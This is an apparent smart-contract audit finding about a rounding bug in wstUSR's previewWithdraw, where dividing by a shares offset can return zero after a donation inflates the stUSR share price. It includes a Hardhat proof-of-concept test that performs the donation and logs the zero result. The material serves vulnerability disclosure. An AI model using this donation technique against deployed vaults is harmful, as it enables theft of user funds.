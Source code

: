 **Likelihood:** Medium

## Description

`previewWithdraw` is a function that accepts `_usrAmount` and returns the required `wstUSRAmount` that should be burned to withdraw the `_usrAmount`.This calculation is generally implemented to favor the vault by rounding up the required share amount to prevent issues for the vault. While `stUSR.previewWithdraw` already implements virtual shares and rounding up the calculation, `wstUSR.previewWithdraw `has the following implementation.

```solidity
    function previewWithdraw(uint256 _usrAmount) public view returns (uint256 wstUSRAmount) {
        return IStUSR(stUSRAddress).previewWithdraw(_usrAmount) / ST_USR_SHARES_OFFSET;
    }
```

If the returned value from `IStUSR(stUSRAddress).previewWithdraw(_usrAmount)` is less than `ST_USR_SHARES_OFFSET`, the required `wstUSRAmount` will be 0. This situation could occur if an attacker or griefer donates `USR` to the `stUSR` to manipulate the `stUSR` vault share price. Although it is difficult to make this profitable, the required donation and gas costs for a small `withdraw` operation could potentially make the profit even smaller. However, the natural growth of `USR` inside the `stUSR` vault could make the desired share price for the attack reach more quickly. Overall, the combination of these factors could make the attack cheaper and more profitable.

PoC :

```javascript
it("PoC - previewWithdraw return 0", async () => {
  // given
  const { otherAccount, otherAccount1, USR, stUSR, wstUSR } = await loadFixture(
    deployFixture
  );
  const wstUSRFromAnotherSigner = wstUSR.connect(otherAccount);

  await USR["mint(address,uint256)"](otherAccount, parseUSR(3000));
  const usrFromAnotherSigner = USR.connect(otherAccount);
  await usrFromAnotherSigner.approve(wstUSR, parseUSR(3000));

  // when
  const tx = await wstUSRFromAnotherSigner["deposit(uint256)"](parseUSR(3000));
  const balancewstAfter = await wstUSR.balanceOf(otherAccount);
  console.log("balance wstUSR after deposit : ");
  console.log(balancewstAfter);
  // test
  const totalSupplyBefore = await stUSR.totalSupply();
  console.log("total supply before : ");
  console.log(totalSupplyBefore);
  const totalShares = await stUSR.totalShares();
  console.log("total shares : ");
  console.log(totalShares);
  await USR["mint(address,uint256)"](otherAccount1, parseUSR(300000));
  const usrFromAnotherSigner1 = USR.connect(otherAccount1);
  await usrFromAnotherSigner1.transfer(stUSR, parseUSR(300000));
  const previewWIthdraw = await wstUSR.previewWithdraw(100);
  console.log("previewWithdrawResult : ");
  console.log(previewWIthdraw);
});
```
